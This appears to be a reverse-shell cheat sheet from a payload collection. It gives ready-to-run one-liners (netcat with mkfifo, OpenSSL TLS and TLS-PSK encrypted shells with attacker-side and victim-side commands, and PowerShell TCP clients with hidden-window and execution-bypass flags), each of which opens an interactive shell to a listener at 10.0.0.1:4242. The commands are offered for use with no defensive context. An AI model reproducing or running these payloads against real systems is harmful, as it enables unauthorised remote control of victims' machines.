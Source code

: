 ### Netcat OpenBsd os

- rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 4242 >/tmp/f






### OpenSSL

#### Attacker:

1. user@attack$ openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes
2. user@attack$ openssl s_server -quiet -key key.pem -cert cert.pem -port 4242
or
1. user@attack$ ncat --ssl -vv -l -p 4242

2. user@victim$ mkfifo /tmp/s; /bin/sh -i < /tmp/s 2>&1 | openssl s_client -quiet -connect 10.0.0.1:4242 > /tmp/s; rm /tmp/s

TLS-PSK (does not rely on PKI or self-signed certificates)

#### generate 384-bit PSK
#### use the generated string as a value for the two PSK variables from below
openssl rand -hex 48 
#### server (attacker)
export LHOST="*"; export LPORT="4242"; export PSK="replacewithgeneratedpskfromabove"; openssl s_server -quiet -tls1_2 -cipher PSK-CHACHA20-POLY1305:PSK-AES256-GCM-SHA384:PSK-AES256-CBC-SHA384:PSK-AES128-GCM-SHA256:PSK-AES128-CBC-SHA256 -psk $PSK -nocert -accept $LHOST:$LPORT
#### client (victim)
export RHOST="10.0.0.1"; export RPORT="4242"; export PSK="replacewithgeneratedpskfromabove"; export PIPE="/tmp/`openssl rand -hex 4`"; mkfifo $PIPE; /bin/sh -i < $PIPE 2>&1 | openssl s_client -quiet -tls1_2 -psk $PSK -connect $RHOST:$RPORT > $PIPE; rm $PIPE






### Powershell

- powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("10.0.0.1",4242);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()

- powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.0.0.1',4242);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
